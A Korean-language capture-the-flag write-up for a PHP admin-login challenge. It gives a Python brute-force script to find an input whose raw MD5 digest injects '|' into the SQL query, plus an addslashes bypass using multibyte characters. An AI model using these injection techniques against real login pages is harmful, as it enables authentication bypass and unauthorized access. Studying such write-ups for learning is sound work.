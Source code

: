 # 문제

- 소스

  ```php
  <?php
    include "../../config.php";
    if($_GET['view_source']) view_source();
  ?><html>
  <head>
  <title>Challenge 51</title>
  <style>
  table{ color:lightgreen;}
  </style>
  </head>
  <body bgcolor=black><br><br>
  <font color=silver>
  <center><h1>Admin page</h1></center>
  </font>
  <?php
    if($_POST['id'] && $_POST['pw']){
      $db = dbconnect();
      $input_id = addslashes($_POST['id']);
      $input_pw = md5($_POST['pw'],true);
      $result = mysqli_fetch_array(mysqli_query($db,"select id from chall51 where id='{$input_id}' and pw='{$input_pw}'"));
      if($result['id']) solve(51);
      if(!$result['id']) echo "<center><font color=green><h1>Wrong</h1></font></center>";
    }
  ?>
  <br><br><br>
  <form method=post>
  <table border=0 align=center bgcolor=gray width=200 height=100>
  <tr align=center><td>ID</td><td><input type=text name=id></td></tr>
  <tr align=center><td>PW</td><td><input type=password name=pw></td></tr>
  <tr><td colspan=2 align=center><input type=submit></td></tr>
  </table>
  <font color=silver>
  <div align=right><br>.<br>.<br>.<br>.<br><a href=./?view_source=1>view-source</a></div>
  </font>
  </form>
  </body>
  </html>
  ```

- id, pw를 입력받는데

- id는 addslashes 처리가되고, pw는 md5처리가 된다.

- 어떤 id값이라도 받아오면 성공



# 풀이

- addslashes 우회는 아닌 것 같다(멀티바이트 인코딩이 없음)

- 그외 특이점은

  - md5 해쉬의 두번째 인자값을 주었다는 것이다.

  - 공식문서를 보니

    >##### raw_output
    >
    >If the optional `raw_output` is set to **TRUE**, then the md5 digest is instead returned in raw binary format with a length of 16.

    - 로우 바이너리 형식으로 출력된다고 한다.
    - 이거다.

- md5 해쉬로 sql 인젝션을 시도하자

  - 최대한 간략한 쿼리를 구성해보자.

  - `[ascii]'|'[ascii]`

  - 파이썬으로 해당 값을 출력하는 plain text를 찾아보자

  - 소스

    ```python
    import hashlib
    
    wanted = '\'|\'' #first, ended is anything in ascii
    
    from itertools import product 
    chars = '0123456789QWERTYUIOPASDFGHJKLZXCVBNMqwertyuiopasdfghjklzxcvbnm' # Chars Dictionary 
    for length in range(1, 10): # length 1 to 4 
        x = product(chars, repeat=length)
        for attempt in x:
            strs = ''.join(attempt)
            print 'attempt: ' + strs
            res = hashlib.md5(strs).hexdigest().decode('hex')
            # first is ascii and middle is wanted and ended is ascii
            print 'results: ' + res[0:len(wanted)+2]
            if res[1:len(wanted)+1] == wanted:
                print 'founded!!!'
                with open('password', 'w') as f:
                    f.write(res[:len(wanted)+2])
                raw_input('press a any key to exit')
                break
    
    raw_input('')
    ```

- id는 admin으로 하고 password는 결과값으로 설정하면 끝

  

# 알게된 것

### addslashes / stripslashes

- DB 오류를 일으킬 수 있는 특수문자 앞에 백슬래쉬를 추가하여 일반 문자로 치환시킨다.
  - stripslashes는 백슬래쉬를 제거
- 취급문자
  - ``'`, `"`, `\`, `Null byte`
- PHP 5.4 버전 이전에는 `magic_quote_gpc`가 자동 on 되있다고 한다.
  - addslashes를 자동으로 해주는거

- 우회방법
  - 전제
    - 멀티바이트 인코딩시 가능(`mb_convert_encoding`)
  - 순서
    - 싱글쿼터 앞에 %f1을(다른 멀티바이트로 취급되는 문자 모두 가능) 삽입한다.
    - addslashes를 거쳐 %f1%5c(백슬래시)%27가 된다.
    - 멀티바이트 인코딩시 %f1%5c를 하나의 문자로 인식한다.
    - 백슬래시가 제거된 %27(싱글쿼터)로 쿼리에서 인식하게 된다. 
  - 위 문제와는 관련 없어보인다..



### product from itertools in python

- 무작위 문자열 생성 도구

- [소스 - ruinick 티스토리](https://ruinick.tistory.com/13)

  ```python
  from itertools import 
  product chars = '0123456789QWERTYUIOPASDFGHJKLZXCVBNMqwertyuiopasdfghjklzxcvbnm' # Chars Dictionary 
  for length in range(1, 5): # length 1 to 4 
  	to_attempt = product(chars, repeat=length) 
  	for attempt in to_attempt: 
  		brute = ''.join(attempt) 
  		print brute
  ```

  - 튜플(?) 형태로 반환되기 때문에 join 시켜줘야 한다.

### SQL 논리 연산

- `or 1=1`처럼 굳이 or과 수식 안적어도 되고
- `|'123'`처럼 아무런 문자열 넣어도 True로 취급

